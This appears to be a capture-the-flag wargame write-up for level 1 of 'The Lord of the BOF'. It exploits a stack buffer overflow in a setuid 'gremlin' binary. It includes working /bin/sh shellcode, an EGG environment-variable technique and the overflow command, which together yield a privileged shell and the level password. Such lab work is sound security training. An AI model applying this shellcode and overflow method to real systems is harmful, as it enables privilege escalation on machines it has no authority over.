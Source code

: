 # Level1

## This level's goal
- LEVEL1 (gate -> gremlin) : Simple BOF

***

```
[gate@localhost gate]$ bash2

[gate@localhost gate]$ ls -l
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c

[gate@localhost gate]$ cat gremlin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

[gate@localhost gate]$ ./gremlin
argv error

[gate@localhost gate]$ ./gremlin AAAA
AAAA
```

In the code, the gremlin seems that it prints buffer(256bytes) which is your input.

```
(gdb) run
Starting program: /home/gate/gremlin
/bin/bash: /home/gate/gremlin: Operation not permitted
```

You cannot debug germlin cuz of the privilege, so you need to copy that for debug.

```
(gdb) set disass intel
(gdb) disass main
0x8048433 <main+3>:     sub    %esp,0x100
0x804846e <main+62>:    lea    %eax,[%ebp-256]
```

the buffer is 256 without dummy, so the memory seems 256bytes + SFP(4byts) + RET(4bytes).

The point is that you need to overflow buf and SFP (260bytes) and then exploit RET with the shell code.

The shell code is   
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80`

```
[gate@localhost gate]$ export EGG=`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
[gate@localhost gate]$ echo 'int main() { printf("EGG -> 0x%x\n", getenv("EGG")); } ' > getegg.c
[gate@localhost gate]$ gcc getegg.c -o getegg
[gate@localhost gate]$ ./getegg
EGG -> 0xbffffeb1
```

Then the payload will be the dummy strings + the shell code's address.

```
[gate@localhost gate]$ ./gremlin `python -c 'print "A"*260+"\xb1\xfe\xff\xbf"'`
bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
bash$ my-pass
euid = 501
hello bof world
```




